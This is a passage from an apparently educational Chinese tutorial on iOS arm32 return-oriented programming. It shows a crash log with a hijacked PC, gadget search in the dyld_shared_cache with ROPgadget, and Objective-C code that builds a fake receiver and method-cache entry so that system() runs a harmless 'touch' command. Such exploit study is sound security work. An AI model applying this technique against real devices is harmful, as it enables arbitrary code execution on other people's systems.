 ```
Process 30030 resuming
Process 30030 stopped
* thread #1: tid = 0x3a0e7, 0x12121210, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x12121210)
    frame #0: 0x12121210
error: memory read failed for 0x12121200
```
### 0x05 iOS上的arm32 ROP
&emsp;&emsp;虽然控制了PC，但在iOS上我们并不能采用nmap()或者mprotect()将内存改为可读可写可执行，如果想要让程序执行一些我们想要的指令的话必须要使用ROP。
返回导向编程（Return-Oriented Programming, ROP)是计算机安全漏洞利用技术，该技术允许攻击者在安全防御的情况下执行代码，如不可执行的内存和代码签名。攻击者控制堆栈调用以劫持程序控制流并执行针对性的机器语言指令序列（称为Gadgets）。 每一段 gadget 通常结束于 return 指令，并位于共享库代码中的子程序。系列调用这些代码，攻击者可以在拥有更简单攻击防范的程序内执行任意操作。

&emsp;&emsp;然而在iOS上默认是开启ASLR+DEP+PIE的。program image本身在内存中的地址也是随机的。所以在iOS上使用ROP技术必须配合信息泄露的漏洞才行。虽在iOS上写ROP非常困难，但有个好消息是虽然program image是随机的，但是每个进程都会加载的dyld_shared_cache这个共享缓存的地址在开机后是固定的，并且每个进程的dyld_shared_cache都是相同的。这个dyld_shared_cache有好几百M大，基本上可以满足对gadgets的需求。因此只要在自己的进程获取dyld_shared_cache的基址就能够计算出目标进程gadgets的位置。

&emsp;&emsp;dyld_shared_cache文件一般保存在/System/Library/Caches/com.apple.dyld/这个目录下。下载下来以后就可以用[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)这个工具来搜索gadget了。
首先从cahe文件中提取CoreFoundation这个framework,生成dyld_shared_cache_armv7.CoreFoundation。
```
jtool -extract CoreFoundation ./dyld_shared_cache_armv7
```
&emsp;&emsp;先实现一个简单的ROP，用system()函数执行”touch /tmp/IceAndFire”。因为r0是控制的fake_receiver的地址，因此可以搜索利用r0来控制其他寄存器的gadgets。
```
ROPgadget --binary ./dyld_shared_cache_armv7.CoreFoundation --thumb | grep "ldr r0"
```
&emsp;&emsp;比如下面这条：
```
0x2d4512a4 : mov r1, r0 ; ldr r0, [r1, #0x44] ; ldr r1, [r1, #0x58] ; cmp r1, #0 ; it eq ; bxeq lr ; bx r1
```
&emsp;&emsp;随后构造一个假的结构体，然后给对应的寄存器赋值：
```
struct fake_receiver_t
{
    uint32_t fake_objc_class_ptr;
    uint8_t pad1[0x44-0x4];
    uint32_t r0;
    uint8_t pad2[0x58-0x44-0x4];
    uint32_t r1;
    char cmd[1024];
}fake_receiver;
fake_receiver.r0=(uint64_t)&fake_receiver.cmd;
fake_receiver.r1=(void *)dlsym(RTLD_DEFAULT, "system");
NSLog(@"system_address = %p", (void*)fake_receiver.r1);
strcpy(fake_receiver.cmd, "touch /tmp/IceAndFire");
```
&emsp;&emsp;最后将cached_function的值指向我们gagdet的地址就能控制程序执行system()指令了：
```
    fake_cache_bucket.cached_sel = (void*) NSSelectorFromString(@"release");
    NSLog(@"cached_sel = %p", NSSelectorFromString(@"release"));

    uint8_t* CoreFoundation_base = find_library_load_address("CoreFoundation");
    NSLog(@"CoreFoundationbase address = %p", (void*)CoreFoundation_base);
    
    //0x2d4512a4 : mov r1, r0 ; ldr r0, [r1, #0x44] ; ldr r1, [r1, #0x58] ; cmp r1, #0 ; it eq ; bxeq lr ; bx r1
    //thumb 汇编，需要+1
    //0x2d3b3000  文件中的起始偏移
    fake_cache_bucket.cached_function = (void*)CoreFoundation_base + 0x2d4512a4 - 0x2d3b3000 + 1;
    NSLog(@"fake_cache_bucket.cached_function = %p", (void*)fake_cache_bucket.cached_function);
```